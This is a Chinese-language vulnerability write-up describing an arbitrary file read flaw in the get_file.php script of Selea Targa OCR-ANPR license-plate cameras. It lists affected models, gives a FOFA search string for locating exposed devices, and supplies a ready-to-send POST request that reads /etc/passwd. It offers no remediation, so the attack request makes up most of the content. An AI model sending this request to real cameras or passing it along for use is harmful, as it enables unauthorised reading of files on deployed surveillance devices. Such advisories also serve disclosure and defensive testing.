 # Selea OCR-ANPR摄像机 get_file.php 任意文件读取漏洞

## 漏洞描述

Selea OCR-ANPR摄像机 get_file.php存在 任意文件读取漏洞，通过构造特殊请求获取服务器文件

## 漏洞影响

> [!NOTE]
>
> Selea Selea Targa IP OCR-ANPR Camera iZero
>
> Selea Selea Targa IP OCR-ANPR Camera Targa 512
>
> Selea Selea Targa IP OCR-ANPR Camera Targa 504
>
> Selea Selea Targa IP OCR-ANPR Camera Targa Semplice
>
> Selea Selea Targa IP OCR-ANPR Camera Targa 704 TKM
>
> Selea Selea Targa IP OCR-ANPR Camera Targa 805
>
> Selea Selea Targa IP OCR-ANPR Camera Targa 710 INOX
>
> Selea Selea Targa IP OCR-ANPR Camera Targa 750
>
> Selea Selea Targa IP OCR-ANPR Camera Targa 704 ILB

## FOFA

> [!NOTE]
>
> "selea_httpd"

## 漏洞复现

登录页面如下

![](http://wikioss.peiqi.tech/vuln/sel-1.png)

发送如下请求包

```
POST /cgi-bin/get_file.php HTTP/1.1
Host: 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: lang=en; PHPSESSID=bvib0lq6lahlhbjnfv91k13ou0

name=pq&files_list=/etc/passwd
```

![](http://wikioss.peiqi.tech/vuln/sel-4.png)

## Goby & POC

![](http://wikioss.peiqi.tech/vuln/sel-5.png)